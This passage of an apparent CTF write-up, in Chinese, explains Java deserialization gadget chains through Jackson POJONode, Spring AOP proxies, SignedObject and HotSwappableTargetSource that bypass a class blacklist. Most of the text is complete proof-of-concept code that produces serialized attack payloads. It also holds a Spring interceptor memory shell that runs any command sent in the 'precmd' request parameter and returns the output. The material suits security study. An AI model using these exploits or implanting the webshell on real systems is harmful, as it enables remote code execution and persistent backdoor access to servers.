Object proxyObj = Proxy.newProxyInstance(clazz.getClassLoader(), new Class[]{Templates.class}, handler);
POJONode jsonNodes = new POJONode(proxyObj);
0x06 poc
package jackson;
import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.tomcat.util.codec.binary.Base64;
import org.springframework.aop.framework.AdvisedSupport;
import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import javax.xml.transform.Transformer;
import javax.xml.transform.TransformerConfigurationException;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.security.*;
import java.util.Properties;
public class jackson {
public static void main(String[] args) throws Exception {
ClassPool pool = ClassPool.getDefault();
CtClass clazzs = pool.get(Evil.class.getName());
byte[] code = clazzs.toBytecode();
//System.out.println(Base64.getEncoder().encodeToString(code));
TemplatesImpl templates=new TemplatesImpl();
setFiled(templates,"_name","111");
setFiled(templates,"_bytecodes",new byte[][]{code});
setFiled(templates,"_tfactory",new TransformerFactoryImpl());
Class<?> clazz = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
Constructor<?> cons = clazz.getDeclaredConstructor(AdvisedSupport.class);
cons.setAccessible(true);
AdvisedSupport advisedSupport = new AdvisedSupport();
advisedSupport.setTarget(templates);
InvocationHandler handler = (InvocationHandler) cons.newInstance(advisedSupport);
Object proxyObj = Proxy.newProxyInstance(clazz.getClassLoader(), new Class[]{Templates.class}, handler);
POJONode jsonNodes = new POJONode(proxyObj);
BadAttributeValueExpException badAttributeValueExpException=new BadAttributeValueExpException(111);
setFiled(badAttributeValueExpException,"val",jsonNodes);
// 生成私钥和公钥
KeyPairGenerator keyPairGen = KeyPairGenerator.getInstance("RSA");
keyPairGen.initialize(2048);
KeyPair keyPair = keyPairGen.generateKeyPair();
PrivateKey privateKey = keyPair.getPrivate();
// 创建签名引擎
Signature signingEngine = Signature.getInstance("SHA256withRSA");
signingEngine.initSign(privateKey);
SignedObject signedObject = new SignedObject(badAttributeValueExpException,privateKey,signingEngine);
POJONode node = new POJONode(signedObject);
BadAttributeValueExpException bad=new BadAttributeValueExpException(111);
setFiled(bad,"val",node);
ByteArrayOutputStream bos = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(bos);
oos.writeObject(bad);
oos.close();
byte[] serializedBytes = bos.toByteArray();
byte[] base64EncodedBytes = Base64.encodeBase64(serializedBytes);
System.out.println(new String(base64EncodedBytes));
// 从文件中反序列化对象
String base64EncodedData = "";
byte[] decodedBytes = Base64.decodeBase64(base64EncodedData);
// 反序列化
ByteArrayInputStream bis = new ByteArrayInputStream(serializedBytes);
ObjectInputStream ois = new ObjectInputStream(bis);
ois.readObject();
}
public static void setFiled(Object templates, String name, Object values) throws IllegalAccessException, NoSuchFieldException {
Field declaredField = templates.getClass().getDeclaredField(name);
declaredField.setAccessible(true);
declaredField.set(templates,values);
}
}
0x07 另一种触发tostring
除了用上面CC5来触发tostring方法还有其他链子，org.springframework.aop.target.HotSwappableTargetSource.java(HSTS)，这个类是spring aop模块的
这里是看secobj这道和jackson相关的反序列化题接触到的，这里看到链子
HashMap#readObject -> HashMap#putVal -> HotSwappableTargetSource#equals -> XString#equals ->POJONode#toString
这个是前面的触发的利用连，我们简单分析下链子，我第一眼看这个链子就想为啥要HotSwappableTargetSource#equals这步，直接XString#equals不好么。我们开始分析
一开始我就遇到了困难点，我是调用else中的key.equals(k)来触发后面的链子，但是我们进入else并不容易

问题1 putVal
- tab
这里可以看到p是从tab中取值的，其中i还是通过and和hash运算，这里明显一次putVal方法不够，我们第一次给tab[i],第二次调用第一次的tab[i]
Hashmap#readObject 中也是for调用putVal，上面想法可以实现
for (int i = 0; i < mappings; i++) {
@SuppressWarnings("unchecked")
K key = (K) s.readObject();
@SuppressWarnings("unchecked")
V value = (V) s.readObject();
putVal(hash(key), key, value, false, false);
}
- mappings
通过putVal()中的代码，我们知道要进入else，第二次的i要和第一次的i一样，才能让
(p = tab[i = (n - 1) & hash]) != null (这里是不等于，md格式的问题)
及两次的key的hash值要一样，也就是间接key要一样咯？，但是赋值直接put的话，只会有一对值，覆盖第一个value。而put也是调用的putVal()，会判断key的hash，一样的话并不会多加一对值。
public V put(K key, V value) {
return putVal(hash(key), key, value, false, true);
}
这里主要原因是这个hash值，所以我们第二值可以直接用这个putVal()来赋值，hash我们可以随便设置，因为readObject的时候，hash值还是去通过hash(key)去获取的，并不影响
HashMap hashMap = new HashMap();
hashMap.put(hotSwappableTargetSource2,"111");
//hashMap.put(hotSwappableTargetSource,"222");
Method putVal = hashMap.getClass().getDeclaredMethod("putVal", int.class, Object.class, Object.class, boolean.class, boolean.class);
putVal.setAccessible(true);
putVal.invoke(hashMap,123,hotSwappableTargetSource,"222",false,true);
- key
hash的问题解决了，有个究极问题（两次的key不能相等）
看到这里进入else之后的这个if判断，这里||如果前面为true了的话就不会执行后面的key.equals(k)方法进行判断了
if (p.hash == hash &&
((k = p.key) == key || (key != null && key.equals(k))))
Hashmap#hash
static final int hash(Object key) {
int h;
return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
}
但是常规思路，这个是不可能的，因为hash值要一样意味着key一样，而这里却要key不相同！——！，除非他hashCode()有黑魔法嘿嘿
这里也就是为什么要套一层HSTS的原因
HSTS 我的神
这家伙hashCode方法完美解决的了这个问题，其返回的是一个固定值我去（不知道为什么这么设计，从逻辑上看其实算个缺陷，不符合逻辑呀hhh）
@Override
public int hashCode() {
return HotSwappableTargetSource.class.hashCode();
}
所以这里key都用HotSwappableTargetSource
后面就比较顺利了，没什么问题，这里注意下第一个XString要用String那个构造方法，因为str()里String转义可能报错中断

poc
这里poc还夹杂着SignedObject(二次反序列化)和JdkDynamicAopProxy(稳定触发getOutputProperties)，spring内存马
因为题目需要这些，然后相关代码和附件我也会放到poc下面
import com.fasterxml.jackson.databind.node.POJONode;
import com.govuln.shiroattack.Evil;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.org.apache.xml.internal.utils.XMLString;
import com.sun.org.apache.xpath.internal.objects.XString;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.tomcat.util.codec.binary.Base64;
import org.springframework.aop.framework.AdvisedSupport;
import org.springframework.aop.target.HotSwappableTargetSource;
import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import javax.xml.transform.Transformer;
import javax.xml.transform.TransformerConfigurationException;
import java.io.*;
import java.lang.reflect.*;
import java.security.*;
import java.util.HashMap;
import java.util.Properties;
public class jackson {
public static void main(String[] args) throws Exception {
ClassPool pool = ClassPool.getDefault();
CtClass clazzs = pool.get(Interceptor_demo.class.getName());
byte[] code = clazzs.toBytecode();
//System.out.println(Base64.getEncoder().encodeToString(code));
TemplatesImpl templates=new TemplatesImpl();
setFiled(templates,"_name","111");
setFiled(templates,"_bytecodes",new byte[][]{code});
setFiled(templates,"_tfactory",new TransformerFactoryImpl());
Class<?> clazz = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
Constructor<?> cons = clazz.getDeclaredConstructor(AdvisedSupport.class);
cons.setAccessible(true);
AdvisedSupport advisedSupport = new AdvisedSupport();
advisedSupport.setTarget(templates);
InvocationHandler handler = (InvocationHandler) cons.newInstance(advisedSupport);
Object proxyObj = Proxy.newProxyInstance(clazz.getClassLoader(), new Class[]{Templates.class}, handler);
POJONode jsonNodes = new POJONode(proxyObj);
BadAttributeValueExpException badAttributeValueExpException=new BadAttributeValueExpException(111);
setFiled(badAttributeValueExpException,"val",jsonNodes);
// 生成私钥和公钥
KeyPairGenerator keyPairGen = KeyPairGenerator.getInstance("RSA");
keyPairGen.initialize(2048);
KeyPair keyPair = keyPairGen.generateKeyPair();
PrivateKey privateKey = keyPair.getPrivate();
// 创建签名引擎
Signature signingEngine = Signature.getInstance("SHA256withRSA");
signingEngine.initSign(privateKey);
SignedObject signedObject = new SignedObject(badAttributeValueExpException,privateKey,signingEngine);
POJONode node = new POJONode(signedObject);
// BadAttributeValueExpException bad=new BadAttributeValueExpException(111);
// setFiled(bad,"val",node);
XString xString = new XString("123");
Constructor<XString> Constructor = XString.class.getDeclaredConstructor(Object.class);
Constructor.setAccessible(true);
//XString xString = Constructor.newInstance(new XString("123"));
XString xString2 = Constructor.newInstance(node);
HotSwappableTargetSource hotSwappableTargetSource = new HotSwappableTargetSource(xString);
HotSwappableTargetSource hotSwappableTargetSource2 = new HotSwappableTargetSource(node);
HashMap hashMap = new HashMap();
hashMap.put(hotSwappableTargetSource2,"111");
//hashMap.put(hotSwappableTargetSource,"222");
Method putVal = hashMap.getClass().getDeclaredMethod("putVal", int.class, Object.class, Object.class, boolean.class, boolean.class);
putVal.setAccessible(true);
putVal.invoke(hashMap,123,hotSwappableTargetSource,"222",false,true);
// Field modCount = hashMap.getClass().getDeclaredField("size");
// modCount.setAccessible(true);
// modCount.set(hashMap,2);
ByteArrayOutputStream bos = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(bos);
oos.writeObject(hashMap);
oos.close();
byte[] serializedBytes = bos.toByteArray();
byte[] base64EncodedBytes = Base64.encodeBase64(serializedBytes);
System.out.println(new String(base64EncodedBytes));
// 从文件中反序列化对象
String base64EncodedData = "";
byte[] decodedBytes = Base64.decodeBase64(base64EncodedData);
// 反序列化
ByteArrayInputStream bis = new ByteArrayInputStream(serializedBytes);
ObjectInputStream ois = new MyObjectInputStream(bis);
ois.readObject();
}
public static void setFiled(Object templates, String name, Object values) throws IllegalAccessException, NoSuchFieldException {
Field declaredField = templates.getClass().getDeclaredField(name);
declaredField.setAccessible(true);
declaredField.set(templates,values);
}
}
MyObjectInputStream
这个是题目的过滤，可以看到过滤了CC5开头
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//
import java.io.IOException;
import java.io.InputStream;
import java.io.InvalidClassException;
import java.io.ObjectInputStream;
import java.io.ObjectStreamClass;
public class MyObjectInputStream extends ObjectInputStream {
private static final String[] blackList = new String[]{"AbstractTranslet", "Templates", "TemplatesImpl", "javax.management", "swing", "awt", "fastjson"};
public MyObjectInputStream(InputStream in) throws IOException {
super(in);
}
protected MyObjectInputStream() throws IOException, SecurityException {
}
protected Class<?> resolveClass(ObjectStreamClass desc) throws IOException, ClassNotFoundException {
String[] var2 = blackList;
int var3 = var2.length;
for(int var4 = 0; var4 < var3; ++var4) {
String black = var2[var4];
if (desc.getName().contains(black)) {
throw new InvalidClassException("Unauthorized deserialization attempt", desc.getName());
}
}
return super.resolveClass(desc);
}
}
Interceptor_demo
这个是我自己写的spring的Interceptor内存马
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.aopalliance.intercept.Interceptor;
import org.springframework.lang.Nullable;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RestController;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.servlet.HandlerInterceptor;
import org.springframework.web.servlet.ModelAndView;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;
import java.io.PrintWriter;
import java.lang.reflect.Method;
@RestController
public class Interceptor_demo extends AbstractTranslet implements HandlerInterceptor,Interceptor {
public Interceptor_demo() throws Exception {
System.out.println("main");
WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
RequestMappingHandlerMapping bean = null;
if (context != null) {
bean = context.getBean(RequestMappingHandlerMapping.class);
}
bean.setInterceptors(new Interceptor[]{new Interceptor_demo("a")});
Class<?> aClass2 = Class.forName("org.springframework.web.servlet.handler.AbstractHandlerMapping");
Method initApplicationContext = aClass2.getDeclaredMethod("initApplicationContext");
initApplicationContext.setAccessible(true);
initApplicationContext.invoke(bean);
System.out.println("1111111111111111111111");
}
@Override
public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
}
@Override
public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
}
public Interceptor_demo(String a) {
}
@Override
public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler)
throws Exception {
String precmd = request.getParameter("precmd");
if (precmd!= null &&!precmd.isEmpty()) {
try {
Process process = Runtime.getRuntime().exec(precmd);
InputStreamReader isr = new InputStreamReader(process.getInputStream());
BufferedReader br = new BufferedReader(isr);
response.setContentType("text/plain");
PrintWriter writer = response.getWriter();
String line;
while ((line = br.readLine())!= null) {
writer.write(line + "\n");
}
br.close();
isr.close();
} catch (IOException e) {
response.setContentType("text/plain");
PrintWriter writer = response.getWriter();
writer.write("执行命令时出现异常: " + e.getMessage());
writer.close();
}
}
System.out.println("preprepreprepreprepre");
// 这里可以进行权限验证等操作，如果验证不通过可以返回 false 中断请求处理
return true;
}
// public Interceptor_demo(String a) {
// }
public void postHandle(HttpServletRequest request, HttpServletResponse response, Object handler, @Nullable ModelAndView mv) throws Exception {
System.out.println("postpostpostpostpost");
}
@Override
public void afterCompletion(HttpServletRequest request, HttpServletResponse response, Object handler, Exception ex) throws IOException {
System.out.println("afterafterafterafter");
}
}
最后成功利用hhh

- 题目附件：6ZO+5o6lOiBodHRwczovL3Bhbi5iYWlkdS5jb20vcy8xTlBBUlhLLWNrWGNTQU9QVHlybGxLUT9wd2Q9ZmxhZyDmj5Dlj5bnoIE6IGZsYWc=（自行Base64解码）
参考：
https://xz.aliyun.com/t/12846?time__1311=GqGxuDcDRGexlxx2DU2AAUx0IxY5D8WzmeD